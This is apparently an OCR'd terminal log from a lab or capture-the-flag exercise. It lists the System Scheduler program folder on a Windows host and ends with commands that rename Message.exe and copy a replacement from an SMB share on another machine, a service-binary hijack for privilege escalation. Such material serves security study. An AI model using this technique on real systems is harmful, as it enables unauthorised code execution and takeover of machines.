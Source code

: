 ```
 Volume Serial Number is 0E97-C552
 Directory of C:\Program Files (x86)\SystemScheduler
08/04/2019  03:37 AM    <DIR>          .
08/04/2019  03:37 AM    <DIR>          ..
05/17/2007  12:47 PM             1,150 alarmclock.ico
08/31/2003  11:06 AM               766 clock.ico
08/31/2003  11:06 AM            80,856 ding.wav
11/19/2020  01:00 AM    <DIR>          Events
08/04/2019  03:36 AM                60 Forum.url
01/08/2009  07:21 PM         1,637,972 libeay32.dll
11/15/2004  11:16 PM             9,813 License.txt
11/19/2020  12:09 AM             1,496 LogFile.txt
11/19/2020  12:10 AM             3,760 LogfileAdvanced.txt
03/25/2018  09:58 AM           536,992 Message.exe
03/25/2018  09:59 AM           445,344 PlaySound.exe
03/25/2018  09:58 AM            27,040 PlayWAV.exe
08/04/2019  02:05 PM               149 Preferences.ini
03/25/2018  09:58 AM           485,792 Privilege.exe
03/24/2018  11:09 AM            10,100 ReadMe.txt
03/25/2018  09:58 AM           112,544 RunNow.exe
03/25/2018  09:59 AM            40,352 sc32.exe
08/31/2003  11:06 AM               766 schedule.ico
03/25/2018  09:58 AM         1,633,696 Scheduler.exe
03/25/2018  09:59 AM           491,936 SendKeysHelper.exe
03/25/2018  09:58 AM           437,664 ShowXY.exe
03/25/2018  09:58 AM           439,712 ShutdownGUI.exe
03/25/2018  09:58 AM           235,936 SSAdmin.exe
03/25/2018  09:58 AM           731,552 SSCmd.exe
01/08/2009  07:12 PM           355,446 ssleay32.dll
03/25/2018  09:58 AM           456,608 SSMail.exe
08/04/2019  03:36 AM             6,999 unins000.dat
08/04/2019  03:36 AM           722,597 unins000.exe
08/04/2019  03:36 AM                54 Website.url
06/26/2009  04:27 PM             6,574 whiteclock.ico
03/25/2018  09:58 AM            76,704 WhoAmI.exe
05/16/2006  03:49 PM           785,042 WSCHEDULER.CHM
05/16/2006  02:58 PM             2,026 WScheduler.cnt
03/25/2018  09:58 AM           331,168 WScheduler.exe
05/16/2006  03:58 PM           703,081 WSCHEDULER.HLP
03/25/2018  09:58 AM           136,096 WSCtrl.exe
03/25/2018  09:58 AM            98,720 WService.exe
03/25/2018  09:58 AM            68,512 WSLogon.exe
03/25/2018  09:59 AM            33,184 WSProc.dll
              38 File(s)     11,148,259 bytes
               3 Dir(s)  39,121,125,376 bytes free
ren Message.exe Message.exe.bak
C:\Program Files (x86)\SystemScheduler>ren Message.exe Message.exe.bak
copy \\10.8.106.222\smbfolder\Message.exe
C:\Program Files (x86)\SystemScheduler>copy \\10.8.106.222\smbfolder\Message.exe
        1 file(s) copied.
```

